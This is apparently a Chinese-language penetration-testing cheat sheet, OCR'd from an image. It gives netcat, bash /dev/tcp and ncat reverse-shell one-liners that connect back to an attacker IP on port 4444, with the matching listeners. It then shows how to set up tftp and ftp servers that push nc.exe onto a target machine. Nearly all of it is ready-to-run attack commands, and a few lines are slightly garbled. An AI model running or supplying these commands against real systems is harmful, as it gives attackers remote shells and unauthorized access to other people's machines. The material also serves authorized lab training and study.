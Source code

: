 **reverse shell**
```bash
# 被控端
nc -nv 192.168.30.35 4444 -e /bin/bash

或

bash -i >& /dev/tcp/192.168.30.35/4444 0>&1

# 攻击端
nc -lvp 4444
```

ncat:
```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl

# 攻击端
ncat -v 192.168.30.35 4444 --ssl
```

---

## 文件传输
### tftp

基于 udp,端口为 69

**攻击机起 tftp**
```bash
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
chown -R nobody /tftp
```

**目标机**
```bash
tftp -i <kali-ip> GET nc.exe
```

---

### ftp

**攻击机**
```bash
apt-get install pure-ftpd

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd username -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
./setup-ftp(输入要设置的密码)
```

